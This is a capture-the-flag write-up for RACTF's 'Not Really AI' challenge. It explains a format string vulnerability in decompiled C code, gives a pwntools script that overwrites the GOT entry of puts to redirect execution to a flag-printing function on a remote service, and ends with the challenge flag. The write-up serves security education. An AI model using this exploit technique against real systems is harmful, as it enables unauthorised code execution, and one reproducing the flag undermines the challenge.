 # Not Really AI

> Exploit the service to get the flag.

## Description

Let's decompile the binary with Ghidra. The `main` function calls the following function:

```c
void response(void)
{
  char local_20c [516];
  
  puts("How are you finding RACTF?");
  fgets(local_20c,0x200,stdin);
  puts("I am glad you");
  printf(local_20c);
  puts("\nWe hope you keep going!");
  return;
}
```

There also is a function `flaggy` which discloses the flag. We can enter a string in a buffer, which is not vulnerable to buffer overflow, but then its content is printed using `printf`: this is a format string vulnerability.

## Solution

Using `checksec` on the binary, we see that PIE is not enabled. Therefore we overwrite the GOT entry of `puts` with the address of `flaggy`.

```python
from pwn import *

sh = remote('88.198.219.20', 34015)

puts_plt = 0x804c018
# flaggy = 0x08049245

print(sh.recvuntil("RACTF?").decode())

offset = 4
payload = p32(puts_plt) + p32(puts_plt + 2) + "%{}p%{}$hn%{}p%{}$hn\x00".format(0x804-8, offset+1, 0x9245-0x804, offset).encode()

sh.sendline(payload)

sh.interactive()
```

Flag: `ractf{f0rmat_Str1nG_fuN}`
